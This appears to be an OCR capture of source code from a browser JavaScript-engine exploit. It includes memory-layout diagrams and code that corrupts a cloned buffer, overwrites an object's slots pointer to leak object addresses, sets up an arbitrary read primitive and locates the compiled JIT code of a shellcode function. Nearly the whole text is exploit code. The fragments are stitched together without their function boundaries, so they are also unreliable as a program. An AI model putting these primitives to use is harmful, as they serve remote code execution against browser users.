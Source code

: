               +-> Shifted pointer
              |   pointing to          +-> size in bytes of the data buffer
              |   data buffer          |
              +-> Pointer
              |   pointing to          +-> flags
              |   first view           |
for(var i = 0; i < 8; i++) {
    var Temp = new Uint8Array(HelperBuf);
    CorruptedClone[0x30 + i] = Temp[i];
}
//                                             x                       y                        z
// MutableArray.NativeObj.SlotsPtr -> [0x????????Target o] | [bject adress????????] | [0x????????????????]

var SavedSlotsPtrDbl = LeakSlotsPtr();
HelperDbl[0] = SavedSlotsPtrDbl;
HelperDword[0] = HelperDword[0] + 4;
SetSlotsPtr(HelperDbl[0]);

// Patch together a double of the target object address from the two 32-bit property values

HelperDbl[0] = MutableArray.x;
var LeakedLow = HelperDword[1];
HelperDbl[0] = MutableArray.y; // Works in release, not in debug (assertion issues)
var LeakedHigh = HelperDword[0] & 0x00007fff; // Filter off tagged pointer bits
SetSlotsPtr(SavedSlotsPtrDbl);
HelperDword[0] = LeakedLow;
HelperDword[1] = LeakedHigh;

return HelperDbl[0];
HelperDbl[0] = WeakLeakObjectAddress(ExplicitDblArray);
HelperDword[0] = HelperDword[0] + 0x38; // Float64Array data view pointer (same as ArrayBuffer)
ExplicitDblArrayDataPtr = HelperDbl[0];

HelperDbl[0] = WeakLeakObjectAddress(ExplicitDwordArray);
HelperDword[0] = HelperDword[0] + 0x38; // Uint32Array data view pointer (same as ArrayBuffer)
ExplicitDwordArrayDataPtr = HelperDbl[0];

HelperDbl[0] = WeakLeakDbl(HelperDbl[0]); // In the event initialization failed, the first read will return the initial marker data in the x y and z slots of the MutableArray

if(HelperDword[0] == 0x41414141) {
    DebugLog("Arbitrary read primitive failed");
    window.location.reload();
    return 0.0;
}
if(JITInfoAddress) {
    var JITCodePtr = WeakLeakDbl(JITInfoAddress); // Leak the address to the compiled JIT assembly code associated with the JIT'd shellcode function from its JitInfo struct (it is a pointer at offset 0 of this struct)
    return JITCodePtr;
}
